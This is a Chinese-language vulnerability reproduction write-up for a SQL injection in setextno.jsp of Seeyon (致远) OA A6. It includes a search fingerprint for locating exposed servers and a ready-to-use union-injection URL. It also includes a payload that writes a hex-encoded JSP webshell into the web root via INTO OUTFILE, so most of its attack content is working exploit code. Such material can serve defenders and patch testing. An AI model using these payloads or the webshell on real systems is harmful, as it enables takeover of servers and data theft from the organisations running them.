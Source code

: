 # 

# 致远OA A6 setextno.jsp SQL注入漏洞

## 漏洞描述

致远OA A6 setextno.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问如下Url，其中含有 union注入

```
/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#
```

![image-20220520152851758](./images/202205201528813.png)

查看web路径

![image-20220520152913900](./images/202205201529936.png)

写入文件上传木马

```
http://xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(select unhex('3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E')  into outfile 'D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp'),4#
```

![image-20220520152936293](./images/202205201529359.png)
